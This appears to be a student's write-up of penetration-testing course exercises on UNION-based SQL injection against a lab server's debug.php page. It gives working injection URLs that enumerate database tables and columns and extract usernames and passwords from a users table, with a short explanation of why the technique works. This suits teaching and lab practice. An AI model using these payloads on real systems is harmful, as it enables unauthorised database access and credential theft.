




### 9.4.5.9 Exercises
#### 1. Enumerate the structure of the database using SQL injection.

- This command displays all the tables in the Database Schema Info.  

  ```sql
  http://192.168.216.10/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables
  ```

  

- From here, we can investigate the columns of any table with the following command:

  ```sql
  http://192.168.216.10/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='feedback'
  ```

  

- We can further investigate these columns, 2 at a time because we only have 2 viewable slots provided by our vulnerable query.

  ```sql
  http://192.168.216.10/debug.php?id=1 union all select 1, id, name from feedback
  ```

  

#### 2. Understand how and why you can pull data from your injected commands and have it displayed on the screen.

1. We are relying on the vulnerable code, which allows us to append the UNION statement to the intended query.  Because it does not check for validation, we are able to tag on any code we want.
2. The UNION statement is where we are submitting our own queries, which returns the results along with the legitimate query.  Our results have to be the same number of columns as the original query (3 in this case) per the UNION statement's requirements.
3. The statement queries for 3 columns, but the page only displays 2.  So we pad our UNION statement with a literal value (1) in the first column that isn't display.  Then we choose to display the value of our queries in the 2nd & 3rd columns, which are displayed on the page.

#### 3. Extract all users and associated passwords from the database.

```sql
http://192.168.216.10/debug.php?id=1 union all select 1, username, password from users
```

